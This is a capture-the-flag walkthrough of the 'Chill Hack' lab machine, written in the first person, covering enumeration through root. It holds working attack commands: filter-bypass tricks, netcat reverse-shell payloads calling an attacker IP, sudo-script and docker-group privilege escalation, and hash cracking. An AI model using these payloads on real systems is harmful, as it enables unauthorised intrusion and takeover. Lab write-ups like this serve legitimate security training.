 # Chill Hack

## Scanning & Enumeration

Runing nmap

```bash
nmap -p- -T4 -sC 10.10.16.179
```

Output:

```bash
Nmap scan report for chill_hack (10.10.16.179)
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03 04:33 note.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.11.1.219
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 400 Bad Request
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%)
```

#### Port 21

We have anonymous ftp access so we connect to the ftp server

```bash
ftp 10.10.16.179
```

We can see that there is a file inside. In order to download it:

```bash
get note.txt
```

Inside we can see 2 potential usernames: **Anurodh**, **Apaar**  
They are talking tho about filtering strings so maybe there is an rce
hidding somewhere

#### Port 80

Doing a gobuster

```bash
gobuster dir -u http://chill_hack/ -w /usr/share/wordlists/rockyou.txt -x php,txt,html -t 60
```

I found: **/secret**

Navigating to it we quickly understand that we can run commands but some of
them are blocked!!!

## Exploitation

In order to bypass the filtering there are a lot of methods

Escape chars

```bash
l\s -la
c"a"t
```

Putting bash commands together

```bash
echo "";ls
```

And many more. With all that said there are also a lot of payloads to create
a reverse shell and get access.

First start a nc listener:

```bash
nc -nvlp 4444
```

And then some working payloads

```bash
r"m" /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.1.219 4444 >/tmp/f
r\m /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.1.219 4444 >/tmp/f
...
```

## Post Exploitation

#### Getting the Apaar user

After we get the initial foothold, we start enumerating the machine  
Quickly we find out using `sudo -l` about the `.helpline.sh` script  

So we know due to the permitions that if we can spawn a shell from the
script we can leverage to apaar

Analyzing the script... the user's supplied input is directly passed to
a bash instance and we could use this to our advantage

```bash
sudo -u apaar /home/apaar/.helpline.sh
...
Hello user! I am ian, Please enter you message: /bin/bash
```

And we get a shell as **Apaar**!!!

Apaar has a **.ssh** dir so to get a more stable shell we can import
our public key to the **authorized_keys** file

#### Getting the Anurodh user

Enumerating the machine I stubled uppon a 2nd website  
Doing a search for open ports and running services on the machine

```bash
netstat -tulp
```

I see that:

```bash
tcp        0      0 localhost:9001          0.0.0.0:*               LISTEN
tcp        0      0 localhost:mysql         0.0.0.0:*               LISTEN
```

This means that the box runs a mysql database and yeah bingo another website is
running.

There are many way to enumerate this but I was lazy to start port forwarding
so I just went to the **/var/www/files** directory and started reading code

Right of the bat reading **index.php** gave me a lot of info and creds for
the database

```bash
$con = new PDO("mysql:dbname=webportal;host=localhost","root","!@m+her00+@db");
```

I played with the database and found some passwords, crack them but
there weren't usefull at all.

```bash
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd:masterpassword
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649:dontaskdonttell
```

So I jumped back to the **index.php** file and saw that if the the username,
password is correct this website redirects you to **hacker.php**

Reading the code I quickly understand that there's nothing to it.  
I searched for a while to find some other info but nothing...

After taking a break I decided to look again at the **hacker.php** source code

```bash
<img src = "images/hacker-with-laptop_23-2147985341.jpg"><br>
<h1 style="background-color:red;">You have reached this far. </h2>
<h1 style="background-color:black;">Look in the dark! You will find your answer</h1>
```

I was doing this box with @Cyberd0xed and see suggested that there might be
something hidding in the photo

Navigating to the **images** dir I downloaded the hacker-with-laptop_23.jpg

```bash
steghide extract -sf hacker-with-laptop_23.jpg
```

And we get a **backup.zip** file

```bash
zip2john backup.zip > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

And the password is: **iamthebest**

Extracting the **backup.zip** gives as a PHP source code that contains
a new password: **!d0ntKn0wmYp@ssw0rd**

If we try to login as Anurodh with this password, it works!!!

## Privilege Escallation

Running:

```bash
id
```

We see that Anurodh belongs to the **docker** group  
Looking at [gtfobins](https://gtfobins.github.io/gtfobins/docker/), we see
that we can spawn a root shell with:

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

And we get root!  
Amazing room

```json
```
